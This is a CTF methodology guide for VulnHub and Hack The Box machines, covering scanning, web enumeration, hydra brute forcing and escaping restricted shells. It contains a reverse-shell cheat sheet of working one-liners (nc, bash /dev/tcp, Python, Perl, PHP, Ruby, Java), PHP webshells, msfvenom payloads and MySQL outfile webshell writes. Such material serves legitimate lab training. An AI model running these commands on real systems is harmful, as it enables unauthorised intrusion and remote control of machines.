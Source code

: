 ********************************
CTF Series : Vulnerable Machines
********************************

This post (Work in Progress) mark downs the learning gathered by doing the vulnerable machines provided by the VulnHub, Hack the Box and others. Once you download the virtual machine from the website and run it in VMware or Virtual Box, below steps could be followed to find the vulnerabilities.

We would like to **thank g0tm1lk** for maintaining Vulnhub and moderators of Hack The Box. Also, **shout-out** to each and every **author of the Vulnerable Machine/ write-ups** submitted. Thank you for providing awesome challenges to learn from and sharing your knowledge to the community!. **Thank You!!**

In solving any vulnerable machine, there are few stages:

* :ref:`finding-the-ip-address`
* :ref:`port-scanning`
* :ref:`listen-to-the-interface`
* :ref:`from-nothing-to-unprivileged-shell`
* :ref:`unprivileged-shell-to-privileged-shell`

In this blog, we have mentioned, what can be done in each stages. Have also provided Tips and Tricks for solving the VMs. Vulnerability Analysis Blog in Infrastructure Pentest Series could also be referred for exploitation of any particular services (As, it provides information such as "If you have found service X (like ssh, Apache tomcat, JBoss, iscsi etc.), how they can be exploited"

.. _finding-the-ip-address:

Finding the IP address
======================

Netdiscover
-----------

An active/ passive arp reconnaissance tool

::

  netdiscover [options] 
  -i interface : The network interface to sniff and inject packets. 
  -r range : Scan a given range instead of auto scan.

  Example: 
  netdiscover -i eth0/wlan0/vboxnet0/vmnet1 -r 192.168.1.0/24 
	
Interface name for Virtualization Software

* Virtualbox : vboxnet 
* Vmware     : vmnet 

Nmap
----

Network exploration tool and security/ port scanner 

::

  nmap [Scan Type] [Options] {target specification} 
  -sP/-sn Ping Scan -disable port scan 

  Example: nmap -sP/-sn 192.168.1.0/24

.. _port-scanning:

Port Scanning
=============
	
Port scanning provides a large amount of information on open services and possible exploits that target these services. Two options

Unicornscan
-----------

A port scanner that utilizes its own userland TCP/IP stack, which allows it to run a asynchronous scans. Faster than nmap and can scan 65,535 ports in a relatively shorter time frame. 

::  

   unicornscan [options] X.X.X.X/YY:S-E 
     -i, --interface : interface name, like eth0 or fxp1, not normally required 
     -m, --mode : scan mode, tcp (syn) scan is default, U for udp T for tcp \`sf' for tcp connect scan and A for arp for -mT you can also specify tcp flags following the T like -mTsFpU for example that would send tcp syn packets with (NO Syn\|FIN\|NO Push\|URG)
     Address ranges are cidr like 1.2.3.4/8 for all of 1.?.?.?, if you omit the cidr mask then /32 is implied. 
     Port ranges are like 1-4096 with 53 only scanning one port, a for all 65k and p for 1-1024

    example: unicornscan 192.168.1.5:1-4000 gateway:a would scan port 1 - 4000 for 192.168.1.5 and all 65K ports for gateway.

Nmap
-----

Network exploration tool and security/ port scanner 

::

  nmap [Scan Type] [Options] {target specification} 

  HOST DISCOVERY:
  -sL: List Scan - simply list targets to scan 
  -sn: Ping Scan - disable port scan 
  -Pn: Treat all hosts as online -- skip host discovery

  SCAN TECHNIQUES: 
  -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans 
  -sU: UDP Scan -sN/sF/sX: TCP Null, FIN, and Xmas scans

  PORT SPECIFICATION: 
  -p : Only scan specified ports 
  Ex: -p22; -p1-65535; -p U:53,111,137,T:21-25,80,139,8080,S:9

  SERVICE/VERSION DETECTION: 
  -sV: Probe open ports to determine service/version info

  OUTPUT: 
  -oN/-oX/-oS/-oG : Output scan in normal, XML,Output in the three major formats at once 
  -v: Increase verbosity level (use -vv or more for greater effect)

  MISC: -6: Enable IPv6 scanning -A: Enable OS detection, version detection, script scanning, and traceroute


As unicornscan is so fast, it makes sense to use it for scanning large networks or a large number of ports. The idea is to use unicornscan to scan all ports, and make a list of those ports that are open and pass them to nmap for service detection. superkojiman has written a script for this available at `GitHub <https://github.com/superkojiman/onetwopunch>`_.

When portscanning a host, you will be presented with a list of open ports. In many cases, the port number tells you what application is running. Port 25 is usually SMTP, port 80 mostly HTTP. However, this is not always the case, and especially when dealing with proprietary protocols running on non-standard ports you will not be able to determine what application is running.

Amap - Application mapper
-------------------------

By using **amap**, we can identify if any SSL server is running on port 3445 or some oracle listener on port 23. Also, it will actually do an SSL connect if you want and then try to identify the SSL-enabled protocol! One of the VM in vulnhub was running http and https on the same port.

::

  amap -A 192.168.1.2 12380 
  amap v5.4 (www.thc.org/thc-amap) started at 2016-08-10 05:48:09 - APPLICATION MAPPING mode
  Protocol on 192.168.1.2:12380/tcp matches http 
  Protocol on 192.168.1.2:12380/tcp matches http-apache-2 
  Protocol on 192.168.1.2:12380/tcp matches ntp 
  Protocol on 192.168.1.2:12380/tcp matches ssl
  Unidentified ports: none.
  amap v5.4 finished at 2016-08-10 05:48:16


.. _listen-to-the-interface:

Listen to the interface
=======================

We should always listen to the local interface on which the VM is hosted such as vboxnet0 or vmnet using wireshark or tcpdump. Many VMs send data randomly, for example, In one of the VM, it does the arp scan and sends a SYN packet on the port 4444, if something is listening on that port, it send the data.

:: 

  18:02:04.096292 IP 192.168.56.101.36327 > 192.168.56.1.4444: Flags [S], seq 861815232, win 16384, options [mss 1460,nop,nop,sackOK,nop,wscale 3,nop,nop,TS val 4127458640 ecr 0], length 0
  18:02:04.096330 IP 192.168.56.1.4444 > 192.168.56.101.36327: Flags [R.], seq 0, ack 861815233, win 0, length 0
  18:02:04.098567 ARP, Request who-has 192.168.56.2 tell 192.168.56.101, length 28
  18:02:04.098584 ARP, Request who-has 192.168.56.2 tell 192.168.56.101, length 28
  18:02:04.100756 ARP, Request who-has 192.168.56.3 tell 192.168.56.101, length 28
  18:02:04.100773 ARP, Request who-has 192.168.56.3 tell 192.168.56.101, length 28
  18:02:04.096292 IP 192.168.56.101.36327 > 192.168.56.1.4444: Flags [S],

While listening on port 4444, we might receive a something like a base64 encoded string or some message.

::

  nc -lvp 4444
  listening on [any] 4444 …
  192.168.56.101: inverse host lookup failed: Unknown host
  connect to [192.168.56.1] from (UNKNOWN) [192.168.56.101] 39519
  0IHNpbGVuY2Ugc3Vycm91bmRpbmcgeW91Lg0KWW91IGxvb2sgZWFzdCwgdGhlbiBzb3V0aCwgdGhlbiB3ZXN0LCBhbGwgeW91IGNhbiBzZWUgaXMgYSBncmVhdCB3YXN0ZWxh

.. _from-nothing-to-unprivileged-shell:

From Nothing to a Unprivileged Shell
====================================

At this point, you would have an idea about the different services and service version running on the system. (aka figure out what webservices such as cms or software's are running on the vulnerable machine)

searchsploit
------------
Exploit Database Archive Search

First, we need to check if the operating system is using any services which are vulnerable or the exploit is already available in the internet. For example, A vulnerable service webmin is present in one of the VM which can be exploited to extract information from the system.

::

  root@kali:~# nmap -sV -A 172.16.73.128
  **********Trimmed**************
  10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
  |_http-methods: No Allow or Public header in OPTIONS response (status code 200)
  |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
  | ndmp-version: 
  |_  ERROR: Failed to get host information from server
  **********Trimmed**************

If we search for webmin in searchsploit, we will find different exploits available for it and we just have to use the correct one based on the utility and the version matching.

::

  root@kali:~# searchsploit webmin
  **********Trimmed**************
  Description                                                                            Path
  ----------------------------------------------------------------------------------------------------------------
  Webmin < 1.290 / Usermin < 1.220 Arbitrary File Disclosure Exploit                   | /multiple/remote/1997.php
  Webmin < 1.290 / Usermin < 1.220 Arbitrary File Disclosure Exploit (perl)            | /multiple/remote/2017.pl
  Webmin 1.x HTML Email Command Execution Vulnerability                                | /cgi/webapps/24574.txt
  **********Trimmed**************

Once we have figured out which exploit to check we can read about it by using the file-number. For example: 1997, 2017, 24574 in the above case.

::

 searchsploit -x 24674


Searchsploit even provide an option to read the nmap XML file and suggest vulnerabilities ( Need nmap -sV -x xmlfile ).

::
  
  searchsploit
       --nmap     [file.xml]  Checks all results in Nmap's XML output with service version (e.g.: nmap -sV -oX file.xml).
                              Use "-v" (verbose) to try even more combinations


.. Tip :: If we don't get a exact exploit for a version, it is also recommended to read the exploits which are highlighted as they may be valid for lower versions too. For example Let's say we are searching for exploits in Example_Software version 2.1.3. However, version 2.2.2 contains multiple vulnerablities. Reading the description for 2.2.2 we find out it's valid for lower versions too.

SecLists.Org Security Mailing List Archive
------------------------------------------

There would be some days, when you won't find vulnerability in searchsploit. We should also check the `seclists.org security mailing list google search <http://seclists.org/>`_, if someone has reported any bug for that particular software. 

Webservices
-----------

If a webserver is running on the machine, we can start with running 
 
whatweb
^^^^^^^

Utilize whatweb to find what server is running.

::

 whatweb www.example.com
 http://www.example.com [200 OK] Cookies[ASP.NET_SessionId,CMSPreferredCulture,citrix_ns_id], Country[INDIA][IN], Email[infosecurity@zmail.example.com], Google-Analytics[Universal][UA-6386XXXXX-2], HTML5, HTTPServer[Example Webserver], HttpOnly[ASP.NET_SessionId,CMSPreferredCulture,citrix_ns_id], IP[XXX.XX.XX.208], JQuery[1.11.0], Kentico-CMS, Modernizr, Script[text/javascript], Title[Welcome to Example Website ][Title element contains newline(s)!], UncommonHeaders[cteonnt-length,x-cache-control-orig,x-expires-orig], X-Frame-Options[SAMEORIGIN], X-UA-Compatible[IE=9,IE=edge]


nikto
^^^^^
nikto - Scan web server for known vulnerabilities. It would examine a web server to find potential problems and security vulnerabilities, including:

* Server and software misconfigurations
* Default files and programs
* Insecure files and programs
* Outdated servers and programs

dirb, wfuzz, dirbuster
^^^^^^^^^^^^^^^^^^^^^^

Further, we can execute to find any hidden directories.

* `DIRB <https://tools.kali.org/web-applications/dirb>`_ is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary basesd attack against a web server and analizing the response.
* `wfuzz <https://tools.kali.org/web-applications/wfuzz>`_ - a web application bruteforcer. Wfuzz might be useful when you are looking for webpage of a certain size. For example: Let's say, when we dirb we get 50 directories. Each directory containing a image. Most of the time, now we need to figure out which image is different. Here, we would figure out what's the size of the normal image and hide that particular response with wfuzz.
* `Dirbuster <https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project>`_ : DirBuster is a multi threaded java application designed to brute force directories and files names on web/application servers. 

.. Tip :: If the using the dirb/wfuzz wordlist doesn't result in any directories and the website contains a lot of text, it might be a good idea to use cewl to create a wordlist and utilize that as a dictionary to find hidden directories.

.. Tip :: Probably, we would be using common.txt in /usr/share/wordlists/dirb/ . If it's doesn't find anything, it's better to double check with /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt which is list of directories that where found on at least 2 different hosts when DirBuster project crawled the internet. Even if that doesn't work out, try searching with extensions .txt, .js, .html, .php. (.txt by default and rest application based)


PUT Method
^^^^^^^^^^

Sometimes, it is also a good option to check for the various OPTIONS available on the website such as GET, PUT, DELETE etc.

Curl command can be used to check the options available:

::

  curl -X OPTIONS -v http://192.168.126.129/test/
  Trying 192.168.126.129…
  Connected to 192.168.126.129 (192.168.126.129) port 80 (#0)
  > OPTIONS /test/ HTTP/1.1
  > Host: 192.168.126.129
  > User-Agent: curl/7.47.0
  > Accept: /
  >
  < HTTP/1.1 200 OK
  < DAV: 1,2
  < MS-Author-Via: DAV
  < Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
  < Allow: OPTIONS, GET, HEAD, POST
  < Content-Length: 0
  < Date: Fri, 29 Apr 2016 09:41:19 GMT
  < Server: lighttpd/1.4.28
  <
  * Connection #0 to host 192.168.126.129 left intact

The put method allows you to upload a file. Eventually, you can upload a php file which can work as a shell. There are multiple methods to upload the file as mentioned in `Detecting and exploiting the HTTP Put Method <http://www.smeegesec.com/2014/10/detecting-and-exploiting-http-put-method.html>`_ 

The few are

* Nmap:

 ::

   nmap -p 80 --script http-put --script-args http-put.url='/uploads/rootme.php',http-put.file='/tmp/rootme.php'

* curl:

 ::

   curl --upload-file test.txt -v --url http://192.168.126.129/test/test.txt

 or

 :: 

   curl -X PUT -d '

Wordpress
^^^^^^^^^

When running wpscan, also make sure you run --enumerate u for enumerating usernames. By default wpscan doesn't run it. Also, scan for plugins

::

  wpsscan
    --url       | -u <target url>       The WordPress URL/domain to scan.
    --force     | -f                    Forces WPScan to not check if the remote site is running WordPress.
    --enumerate | -e [option(s)]        Enumeration.
    option :
    	u        usernames from id 1 to 10
    	u[10-20] usernames from id 10 to 20 (you must write [] chars)
    	p        plugins
    	vp       only vulnerable plugins
    	ap       all plugins (can take a long time)
    	tt       timthumbs
    	t        themes
    	vt       only vulnerable themes
    	at       all themes (can take a long time)
    	Multiple values are allowed : "-e tt,p" will enumerate timthumbs and plugins
    	If no option is supplied, the default is "vt,tt,u,vp"

Wordpress configuration is stored in wp-config.php. If you are able to download it, you might get username and password to database. We can also use wordpress to bruteforce password for a username 

::

  wpscan --url http://192.168.1.2 --wordlist wordlist.txt --username example_username

.. Tip :: If we have found a username and password of wordpress with admin privileges, we can upload a php meterpreter. One of the possible way is to do Appearance > Editor > Possibly edit 404 Template.

Names? Possible Usernames? Possible Passwords?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
   
Sometimes, on visiting the webpage of the webserver (If Vulnerable machine is running any http/ https webserver), you would find possible  names of the employees working in the company. Now, it is common practice to have username based on your first/ last name. Superkojiman has written a script `namemash.py <https://gist.githubusercontent.com/superkojiman/11076951/raw/8b0d545a30fd76cb7808554b1c6e0e26bc524d51/namemash.py>`_ which could be used to create possible usernames. However, we still have a large amount of  usernames to bruteforce with passwords. Further, if the vulnerable machine is running a SMTP mail server, we can verify if the particular username exists or not and modify namemash.py to generate usernames for that pattern.

* Using metasploit smtp\_enum module: Once msfconsole is running, use auxiliary/scanner/smtp/smtp\_enum, enter the RHOSTS (target address) and USER FILE containing the list of probable user accounts.
* Using VRFY command:
* Using RCPT TO command:

Brute forcing: hydra
^^^^^^^^^^^^^^^^^^^^

Hydra can be used to brute force login web pages

::

  -l LOGIN or -L FILE login with LOGIN name, or load several logins from FILE
  -p PASS  or -P FILE try password PASS, or load several passwords from FILE
  -U        service module usage details
  -e nsr additional checks, "n" for null password, "s" try login as pass, "r" try the reverse login as pass

hydra http-post-form:

:: 

   hydra -U http-post-form

**Help for module http-post-form**

Module http-post-form requires the page and the parameters for the web form.

By default this module is configured to follow a maximum of 5 redirections in a row. It always gathers a new cookie from the same URL without variables. The parameters take three ":" separated values, plus optional values.

::

  Syntax:   <url>:<form parameters>:<condition string>[:<optional>[:<optional>]

* First is the page on the server to GET or POST to (URL).
* Second is the POST/GET variables (taken from either the browser, proxy, etc. with usernames and passwords being replaced in the "^USER^" and "^PASS^" placeholders (FORM PARAMETERS)
* Third is the string that it checks for an *invalid* login (by default) Invalid condition login check can be preceded by "F=", successful condition login check must be preceded by "S=". This is where most people get it wrong. You have to check the webapp what a failed string looks like and put it in this parameter!
* The following parameters are optional:
  C=/page/uri     to define a different page to gather initial cookies from
  (h|H)=My-Hdr\: foo   to send a user defined HTTP header with each request	^USER^ and ^PASS^ can also be put into these headers!

 * Note: 

  * 'h' will add the user-defined header at the end	regardless it's already being sent by Hydra or not.
  * 'H' will replace the value of that header if it exists, by the one supplied by the user, or add the header at the end

 * Note that if you are going to put colons (:) in your headers you should escape them with a backslash (\). All colons that are not option separators should be escaped (see the examples above and below). You can specify a header without escaping the colons, but that way you will not be able to put colons in the header value itself, as they will be interpreted by hydra as option separators.

Examples:

:: 

 "/login.php:user=^USER^&pass=^PASS^:incorrect"
 "/login.php:user=^USER^&pass=^PASS^&colon=colon\:escape:S=authlog=.*success"
 "/login.php:user=^USER^&pass=^PASS^&mid=123:authlog=.*failed"
 "/:user=^USER&pass=^PASS^:failed:H=Authorization\: Basic dT1w:H=Cookie\: sessid=aaaa:h=X-User\: ^USER^"
 "/exchweb/bin/auth/owaauth.dll:destination=http%3A%2F%2F<target>%2Fexchange&flags=0&username=<domain>%5C^USER^&password=^PASS^&SubmitCreds=x&trusted=0:reason=:C=/exchweb"


Reverse Shells
--------------

Possibly, we would have figured out some vulnerablity in the services running or misconfiguration and can have a reverse shell using netcat, php, weevely, ruby, perl, python, java, jsp, bash tcp, Xterm, Lynx, Mysql. Mostly taken from `PentestMonkey Reverse shell cheat sheet <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>`_  and `Reverse Shell Cheat sheet from HighOn.Coffee <https://highon.coffee/blog/reverse-shell-cheat-sheet/>`_ and some more.

netcat (nc)
^^^^^^^^^^^

* with the -e option

::

  nc -e /bin/sh 10.0.0.1 1234

* without -e option

::

  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

PHP
^^^

* **PHP Shell**

 We can create a new file say (shell.php) on the server containing

 :: 

   <?php system($_GET["cmd"]); ?>

 or

 :: 

   <?php echo shell_exec($_GET["cmd"]); ?>

 or

 ::

   <? passthru($_GET["cmd"]); ?>

 which can be accessed by

 :: 

  http://IP/shell.php?cmd=id

 If there's a webpage which accepts phpcode to be executed, we can use curl to urlencode the payload and run it.

 ::

  curl -G -s http://10.X.X.X/somepage.php?data= --data-urlencode "html=<?php passthru('ls -lah'); ?>" -b "somecookie=somevalue" | sed '/<html>/,/<\/html>/d'
  
  -G When used, this option will make all data specified with -d, --data, --data-binary or --data-urlencode to be used in an HTTP GET request instead of the POST request that otherwise would be used. The data will be appended to the URL with a  '?' separator.
  -data-urlencode <data> (HTTP) This posts data, similar to the other -d, --data options with the exception that this performs URL-encoding. 
  -b, --cookie <data> (HTTP) Pass the data to the HTTP server in the Cookie header. It is supposedly the data previously received from the server in a "Set-Cookie:" line.  The data should be in the format "NAME1=VALUE1; NAME2=VALUE2".
 

* **PHP Meterpreter**

 We can create a php meterpreter shell, run a exploit handler on msf, upload the payload on the server and wait for the connection.

 ::

  msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f raw -o /tmp/payload.php

* **PHP Reverse Shell**

 PHP Trick: This code assumes that the TCP connection uses file descriptor 3. This worked on my test system. If it doesn’t work, try 4, 5, 6

 :: 

  php -r '$sock=fsockopen("192.168.56.101",1337);exec("/bin/sh -i <&3 >&3 2>&3");'

 The above can be connected by listening at port 1337 by using nc

Weevely
^^^^^^^

Weevely also generates a webshell

:: 

  weevely generate password /tmp/payload.php

which can be called by

:: 

  weevely http://192.168.1.2/location_of_payload password

However, it wasn't as useful as php meterpreter or reverse shell.


Ruby
^^^^

:: 

  ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

Perl
^^^^

.. code-block :: bash 

  perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Python
^^^^^^

.. code-block :: bash  

  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Java
^^^^

.. code-block :: bash 

  r = Runtime.getRuntime()
  p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
  p.waitFor()

JSP
^^^

.. code-block :: bash 

   msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.110.129 LPORT=4444 -f war > runme.war

Bash /dev/tcp
^^^^^^^^^^^^^

If a server is listening on a port:

::

  nc -lvp port

then we can use the below to connect

::
   
  /bin/bash -i >&/dev/tcp/IP/Port 0>&1


XTerm
^^^^^

One of the simplest forms of reverse shell is an xterm session. The following command should be run on the server. It will try to connect back to you (10.0.0.1) on TCP port 6001.

.. code-block :: bash 

  xterm -display 10.0.0.1:1


To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001). One way to do this is with Xnest (to be run on your system):

::
 
   Xnest :1

You’ll need to authorize the target to connect to you (command also run on your host):

::

  xhost +targetip

Lynx
^^^^

Obtain an interactive shell through lynx: It is possible to obtain an interactive shell via special LYNXDOWNLOAD URLs. This is a big security hole for sites that use lynx "guest accounts" and other public services. More details `LynxShell <http://insecure.org/sploits/lynx.download.html>`_ 

When you start up a lynx client session, you can hit "g" (for Goto) and then enter the following URL:

:: 

  URL to open: LYNXDOWNLOAD://Method=-1/File=/dev/null;/bin/sh;/SugFile=/dev/null

MYSQL
^^^^^

* If we have MYSQL Shell via sqlmap or phpmyadmin, we can use mysql outfile/ dumpfile function to upload a shell.

 :: 

   echo -n "<?php phpinfo(); ?>" | xxd -ps 3c3f70687020706870696e666f28293b203f3e
   select 0x3c3f70687020706870696e666f28293b203f3e into outfile "/var/www/html/blogblog/wp-content/uploads/phpinfo.php"

 or 

 ::
 
  SELECT "<?php passthru($_GET['cmd']); ?>" into dumpfile '/var/www/html/shell.php';

* If you have sql-shell from sqlmap/ phpmyadmin, we can use

 :: 
	
   select load_file('/etc/passwd');

Spawning a TTY Shell
--------------------

Once we have reverse shell, we need a full TTY session by using either Python, sh, perl, ruby, lua, IRB. `Spawning a TTY Shell <https://netsec.ws/?p=337>`_ and `Post-Exploitation Without A TTY <http://pentestmonkey.net/blog/post-exploitation-without-a-tty>`_ has provided multiple ways to get a tty shell

Python
^^^^^^

.. code-block :: bash 

  python -c 'import pty; pty.spawn("/bin/sh")'

or

.. code-block :: bash

  python -c 'import pty; pty.spawn("/bin/bash")'

.. code-block :: bash

  python -c 'import os; os.system("/bin/bash")'

sh
^^

.. code-block :: bash

  /bin/sh -i

Perl
^^^^

.. code-block :: bash 

  perl -e 'exec "/bin/sh";'

.. code-block :: bash

  perl: exec "/bin/sh";

Ruby
^^^^

.. code-block :: bash

   ruby: exec "/bin/sh"

Lua
^^^

.. code-block :: bash

   lua: os.execute('/bin/sh')

IRB
^^^
(From within IRB)

.. code-block :: bash

  exec "/bin/sh"

VI
^^

(From within vi)

.. code-block :: bash 

  :!bash

(From within vi)

.. code-block :: bash 

  :set shell=/bin/bash:shell

Also, if we execute

::

  vi ;/bin/bash

Once, we exit vi, we would get shell. Helpful in scenarios where the user is asked to input which file to open.

Nmap
^^^^

(From within nmap)

.. code-block :: bash 

  !sh

Expect
^^^^^^

Using “Expect” To Get A TTY

.. code-block :: bash 

  $ cat sh.exp
  #!/usr/bin/expect
  # Spawn a shell, then allow the user to interact with it.
  # The new shell will have a good enough TTY to run tools like ssh, su and login
  spawn sh
  interact

Sneaky Stealthy SU in (Web) Shells
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Let's say we have a webshell on the server ( probably, we would be logged in as a apache user), however, if we have credentials of another user, and we want to login we need a tty shell. We can use a shell terminal trick that relies on Python to turn our non-terminal shell into a terminal shell. 

**Example**

Webshell like

::

 http://IP/shell.php?cmd=id

If we try 

::

 echo password | su -c whoami

Probably will get

::

 standard in must be a tty

The su command would work from a terminal, however, would not take in raw stuff via the shell's Standard Input.

We can use a shell terminal trick that relies on Python to turn our non-terminal shell into a terminal shell

::

 (sleep 1; echo password) | python -c "import pty; pty.spawn(['/bin/su','-c','whoami']);"
 root

The above has been referenced from SANS `Sneaky Stealthy SU in (Web) Shells <https://pen-testing.sans.org/blog/2014/07/08/sneaky-stealthy-su-in-web-shells#>`_

Restricted Shell
----------------

Sometimes, after getting a shell, we figure out that we are in restricted shell. The below has been taken from `Escaping Restricted Linux Shells <https://pen-testing.sans.org/blog/pen-testing/2012/06/06/escaping-restricted-linux-shells>`_ , `Escape from SHELLcatraz <https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells>`_ 

Definition
^^^^^^^^^^
It limits a user's ability and only allows them to perform a subset of system commands. Typically, a combination of some or all of the following restrictions are imposed by a restricted shell:

* Using the 'cd' command to change directories.
* Setting or unsetting certain environment variables (i.e. SHELL, PATH, etc...).
* Specifying command names that contain slashes.
* Specifying a filename containing a slash as an argument to the '.' built-in command.
* Specifying a filename containing a slash as an argument to the '-p' option to the 'hash' built-in command.
* Importing function definitions from the shell environment at startup.
* Parsing the value of SHELLOPTS from the shell environment at startup.
* Redirecting output using the '>', '>|', ", '>&', '&>', and '>>' redirection operators.
* Using the 'exec' built-in to replace the shell with another command.
* Adding or deleting built-in commands with the '-f' and '-d' options to the enable built-in.
* Using the 'enable' built-in command to enable disabled shell built-ins.
* Specifying the '-p' option to the 'command' built-in.
* Turning off restricted mode with 'set +r' or 'set +o restricted 

Real shell implements restricted shells:

* rbash

  ::

   bash -r
   cd
   bash: cd: restricted

* rsh
* rksh

**Getting out of restricted shell**

Reconnaissance
^^^^^^^^^^^^^^

Find out information about the environment.

* Run env to see exported environment variables

* Run 'export -p' to see the exported variables in the shell. This would tell which variables are read-only. Most likely the PATH ($PATH) and SHELL ($SHELL) variables are '-rx', which means we can execute them, but not write to them. If they are writeable, we would be able to escape the restricted shell! 

 * If the SHELL variable is writeable, you can simply set it to your shell of choice (i.e. sh, bash, ksh, etc...). 
 * If the PATH is writeable, then you'll be able to set it to any directory you want. I recommend setting it to one that has commands vulnerable to shell escapes.

* Try basic Unix commands and see what's allowed ls, pwd, cd, env, set, export, vi, cp, mv etc.

Quick Wins
^^^^^^^^^^

* If '/' is allowed in commands just run /bin/sh
* If we can set PATH or SHELL variable
  ::

   export PATH=/bin:/usr/bin:/sbin:$PATH
   export SHELL=/bin/sh

  or if chsh command is present just change the shell to /bin/bash

  ::

   chsh
   password: <password will be asked>
   /bin/bash

* If we can copy files into existing PATH, copy
 
 ::

  cp /bin/sh /current/directory; sh

Taking help of binaries
^^^^^^^^^^^^^^^^^^^^^^^

Some commands let us execute other system commands, often bypassing shell restrictions

* ftp -> !/bin/sh
* gdb -> !/bin/sh
* more/ less/ man -> !/bin/sh
